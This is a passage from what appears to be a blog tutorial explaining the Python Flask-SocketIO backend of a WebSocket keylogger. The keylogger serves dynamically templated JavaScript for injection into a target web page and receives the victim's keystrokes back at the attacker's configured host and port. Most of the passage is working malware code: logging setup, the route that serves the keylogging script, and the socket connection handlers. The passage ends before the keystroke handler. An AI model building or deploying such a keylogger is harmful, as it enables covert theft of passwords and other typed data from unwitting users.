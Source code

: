 Flask normally sends a lot of output to stdout. This is an awesome feature for debugging a web applicationss. However, we want stdout to be reserved for displaying keystrokes. To do this, we use Python's logging module to send all log output to a logfile.

{% highlight python %}

logging.basicConfig(filename='wskeylogger.log', level=logging.INFO)

{% endhighlight %}

We then instantiate our Flask application and use it to create a new SocketIO object. We also create a global dictionary, __input_tags__, that will be used to keep track of the current state of every input tag on the target page.

{% highlight python %}

app = Flask(__name__)
app.config['SECRET_KEY'] = 'secret'
socketio = SocketIO(app)

input_tags = {}

{% endhighlight %}
	
We then define a route for our index page. Our index is tasked with handling requests for our keylogging JavaScript file. As previously mentioned, the JavaScript file is built dynamically using the Jinja templating engine. The values of lhost and lport are passed in from our Python code, and set to the corresponding global variables that we placed at the top of the file. 

{% highlight python %}

	@app.route('/')
	def index():
	
		jsfile = render_template('wsk.js', lhost=LHOST, lport=LPORT)
		response = make_response(jsfile)
		response.headers['Content-Type'] = 'application/javascript'
		return response
		
{% endhighlight %}

We next define functions to handle new and terminating connections.

{% highlight python %}

@socketio.on('connect', namespace='/keylogger')
def test_connect():

    emit('confirm connection', { 'data' : 'Connected' })
	
@socketio.on('disconnect', namespace='/keylogger')
def test_disconnect():
    print 'Client disconnected'

{% endhighlight %}

The majority of the work done by the keylogger's backend will occur in the keydown function. The keydown function is triggered when the client emits a keydown event. The function's only argument, __message__, contains the data sent from the client. We use message to set our function's local variables.
